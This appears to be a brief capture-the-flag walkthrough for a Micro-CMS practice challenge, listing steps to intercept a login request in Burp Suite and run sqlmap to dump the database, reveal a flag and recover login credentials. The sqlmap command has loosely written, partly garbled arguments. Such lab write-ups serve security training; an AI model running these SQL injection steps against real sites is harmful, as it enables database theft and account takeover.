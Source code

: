 1) Open the url and then trying to logged Micro-CMS Changelog Edit page
2) open burpsuite and intercept on
3) save out put report and doing sql injection
   sqlmap -r <path output file store> title username --dbs --dump
4) Then firstly can see Flag0 and after display login credentials
5) login using these credentials and can see another Flag.
